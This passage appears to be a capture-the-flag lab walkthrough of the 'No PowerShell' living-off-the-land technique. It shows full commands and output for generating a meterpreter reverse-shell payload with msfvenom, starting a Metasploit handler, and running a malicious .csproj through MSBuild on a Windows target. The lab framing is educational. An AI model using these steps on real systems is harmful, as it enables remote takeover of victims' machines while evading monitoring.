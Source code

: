 Once the command is executed successfully, we need to transfer the output file to the Windows machine. You can do this using the SCP command or set a web server to host the file on the AttackBox (python3 -m http.server 1337) and download the file using the browser.

Finally, on the target Windows machine, build the .csproj file and wait for the reverse shell!

```
Command Prompt!

           
			
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj

	    
```

Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no powershell.exe process is running.


Replicate the steps of the No PowerShell technique to receive a reverse shell on port 4444. Once a connection is established, a flag will be created automatically on the desktop. What is the content of the flag file?
(Use the MSbuild to build the malicious .csproj. Make sure to set the LPORT = 4444 on the AttackBox in order to get your flag!)

```
──(kali㉿kali)-[~]
└─$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
Cloning into 'PowerLessShell'...
remote: Enumerating objects: 368, done.
remote: Counting objects: 100% (45/45), done.
remote: Compressing objects: 100% (42/42), done.
remote: Total 368 (delta 25), reused 5 (delta 2), pack-reused 323
Receiving objects: 100% (368/368), 111.97 KiB | 301.00 KiB/s, done.
Resolving deltas: 100% (207/207), done.
                                                                                   
┌──(kali㉿kali)-[~]
└─$ ls
armitage-tmp  dict.lst      live0fftheland.dll  PowerLessShell  thm.hta
book.txt      Documents     multi_launcher      Public          usernames-list.txt
clinic.lst    Downloads     Music               snmpcheck       Videos
crunch.txt    ftp_flag.txt  payload.hta         stager2.bat
Desktop       hashctf2      Pictures            Sublist3r
dict2.lst     launcher.bat  powercat            Templates
                                                                                   
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.11.81.220 LPORT=4444 -f psh-reflection > liv0ff.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 957 bytes
Final size of psh-reflection file: 3782 bytes
                                                                                   
┌──(kali㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.11.81.220;set lport 4444;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.11.81.220
lport => 4444
[*] Started HTTPS reverse handler on https://10.11.81.220:4444
[!] https://10.11.81.220:4444 handling request from 10.10.45.70; (UUID: dicek2ku) Without a database connected that payload UUID tracking will not work!
```